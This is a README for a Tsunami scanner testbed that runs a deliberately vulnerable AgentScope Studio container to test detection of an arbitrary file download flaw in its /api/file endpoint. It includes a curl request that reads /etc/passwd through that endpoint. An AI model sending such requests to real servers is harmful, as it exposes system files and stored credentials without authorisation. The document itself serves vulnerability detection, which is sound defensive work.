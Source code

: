 # Agentscope Studio Arbitrary File Download Testbed

This plugin for Tsunami detects publicly exposed agentscope studio instances. The /api/file endpoint in modelscope/agentscope is vulnerable to Arbitrary File Download, allowing attackers to retrieve internal files without restriction. This could lead to the unintended exposure of sensitive information, including configuration files that contain database credentials.

References:

- [https://huntr.com/bounties/3f170c58-42ee-422d-ab6f-32c7aa05b974](https://huntr.com/bounties/3f170c58-42ee-422d-ab6f-32c7aa05b974)

## Setup

Build and run vulnerable container using docker compose, it will open port 5000 that run agentscope studio.

```bash
docker-compose up 
```

## How to Trigger the Vulnerability?

To trigger this vulnerability manually, just simply by running the following curl request. It will call vulnerable agentscope studio API /api/file.

```bash
curl http://<youripaddress>:5000/api/file?path=/etc/passwd

example:
curl http://172.18.0.2:5000/api/file?path=/etc/passwd
```

The response should be contains /etc/passwd file.
